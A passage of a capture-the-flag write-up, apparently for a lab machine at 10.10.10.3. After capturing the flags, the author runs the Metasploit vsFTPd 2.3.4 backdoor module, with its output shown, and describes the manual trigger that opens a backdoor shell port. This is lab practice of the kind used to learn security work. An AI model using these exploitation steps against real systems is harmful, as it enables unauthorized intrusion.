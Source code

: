 Sweet. We were able to find both the root and the user flags. This is realllly done. But.. before we wrap up, there was quite a bit of other vulnerabilities and CVEs right? I'm curious to see what we can do with those heckin cuties. 

# Other Vulns

Let's check the FTP stuff first. Search for it in Metasploit real quick and you'll find something worth poking at. 

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show targets
 
 Exploit targets:
 
 Id  Name
 --  ----
 0   Automatic
 
 
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
 
 Module options (exploit/unix/ftp/vsftpd_234_backdoor):
 
 Name    Current Setting  Required  Description
 ----    ---------------  --------  -----------
 RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
 RPORT   21               yes       The target port (TCP)
 
 
 Exploit target:
 
 Id  Name
 --  ----
 0   Automatic
 
 
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
 rhosts => 10.10.10.3
 msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
 
 [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
 [*] 10.10.10.3:21 - USER: 331 Please specify the password.
 [*] Exploit completed, but no session was created.
```
It doesn't do much but let you know you need a password. So let's hit the books on this one. 
## Manual exploit

After doing some Googlefu I found a manual exploit for vsFTPd 2.3.4 - connecting to the ftp and placing a : and ) into the USER field triggers opening port 6200  
